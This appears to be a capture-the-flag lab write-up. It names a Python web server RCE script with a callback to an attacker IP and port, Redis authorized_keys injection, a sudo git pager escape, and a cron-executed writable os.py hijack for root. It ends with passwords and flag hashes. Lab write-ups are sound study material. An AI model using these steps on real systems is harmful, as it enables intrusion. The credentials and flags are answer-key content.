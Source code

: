 # User

## Port 8080
Custom HTTP server
Source code is "leaked" with a comment on /index.html
Vulnerable to RCE using webserver_python_RCE.sh

Gets access to michiko-arasaka user

    ./webserver_python_RCE.sh http://10.10.69.13:8080/ 10.10.69.42 3000

## Port 6379
Misconfigured Redis server
Vulnerable to sshkey authorized_keys injection using redis_sshkey_dropper.sh

Gets access to the server as redis user

    ./redis_sshkey_dropper.sh 10.10.69.13 6379 redis /var/lib/redis/.ssh

## redis sudo -l

can gain access to michiko-arasaka user with:

    sudo -u michiko-arasaka /usr/bin/git -p help

# Root

## /lib/python2.7/os.py
A crontab running as root runs every minute that executes /opt/BackupRedis/backup.py and import os.py
os.py is writable by michiko-arasaka

You can root the box from michiko-arasaka user by putting a shell at the bottom of
/lib/python2.7/os.py and waiting for the cron job to execute.

# Creds
root:UnguessableP@ssw0rd

/root/root.txt : 4e067a8231035d94ca54f1e41c12df6e
 

michiko-arasaka:4d4m5M@SH3R

/home/michiko-arasaka/user.txt : 169ab538813557728c78b637db91d1b0

